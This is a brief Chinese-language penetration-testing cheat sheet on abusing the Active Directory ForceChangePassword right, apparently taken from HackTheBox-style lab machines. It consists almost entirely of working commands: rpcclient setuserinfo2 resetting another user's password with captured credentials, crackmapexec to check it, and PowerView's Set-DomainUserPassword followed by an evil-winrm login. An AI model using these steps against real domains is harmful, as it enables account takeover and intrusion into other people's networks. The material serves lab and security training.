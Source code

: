 # ForceChangePassword

**1. 利用rpc修改密码（无shell只有已控凭据）**

```clike
rpcclient -U 'blackfield.local/support%#00^BlackKnight' 10.129.13.243 -c 'setuserinfo2 audit2020 23 "0xdf!!!"'
检验一下
crackmapexec smb 10.10.10.192 -u audit2020 -p '0xdf!!!'
```

1. 正常的操作，修改下一家密码

```clike
1. 上传模块
upload PowerView.ps1
2. 加载
. .\PowerView.ps1
3. 操作
$newpass = ConvertTo-SecureString '0xdf0xdf!' -AsPlainText -Force

Set-DomainUserPassword -Identity smith -AccountPassword $newpass
4. 登陆
evil-winrm -i 10.129.15.97 -u smith -p '0xdf0xdf!'
```
